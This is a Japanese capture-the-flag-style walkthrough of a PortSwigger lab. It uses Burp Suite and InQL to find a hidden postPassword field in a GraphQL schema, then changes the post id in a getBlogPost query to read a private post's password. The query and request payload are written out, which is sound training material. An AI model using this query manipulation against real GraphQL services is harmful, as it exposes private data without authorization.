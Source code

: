 # プライベート GraphQL 投稿へのアクセス

次のハッキングラボを実施します  
https://portswigger.net/web-security/graphql/lab-graphql-reading-private-posts  
このラボのブログ ページには、秘密のパスワードが設定された非表示のブログ投稿が含まれています。ラボを解決するには、非表示のブログ投稿を見つけてパスワードを入力します。

[前準備]

- 本ラボでは Burp Suite の拡張機能 inQL を使用します。  
  次の URL から jar ファイルをダウンロードしてインストールします。  
  https://github.com/doyensec/inql/releases

[手順]

- 1. BurpSuite を起動して、Proxy タブからブラウザを起動します
- 2. ブラウザからハッキングラボにアクセスします
- 3. ブログのポストページにアクセスします
- 4. http history からリクエスト POST /graphql/v1 HTTP/2 の GraphQL タブを選択します
- 5. 右クリックでコンテキストメニューを開き、Generate queries with InQL Scanner を選択
     ![1](https://github.com/pea-sys/web-security-experiments/assets/49807271/d69485ce-5e38-4c4b-8551-98b6b407c65a)
- 6. InQL タブに移動し、スキャン結果を確認します。  
     BlogPost には postPassword のフィールドがあることが確認できます。
     ![1](https://github.com/pea-sys/web-security-experiments/assets/49807271/80baa4d5-a41a-4721-aa81-0090da96103f)
- 7. POST /graphql/v1 HTTP/2 リクエストを send to repeater します
- 8. repeater タブに移動し、GraphQL タブから postPassword を取得するように書き換えます

```graphql
query getBlogPost($id: Int!) {
  getBlogPost(id: $id) {
    image
    title
    author
    date
    paragraphs
    postPassword
  }
}
```

- 9. ブログポスト id=3 が存在しないため、graphQL パラメータを 3 に変更します

```
{"variables": {"id": 3}, "query": "query getBlogPost($id: Int!) {\n    getBlogPost(id: $id) {\n        image\n        title\n        author\n        date\n        paragraphs\n        postPassword\n    }\n}"}
```

- 10. 送信するとパスワードが取得できます

```
"postPassword": "o6z2bcyywwk0es0d7an5v6munvolrt6k"
```
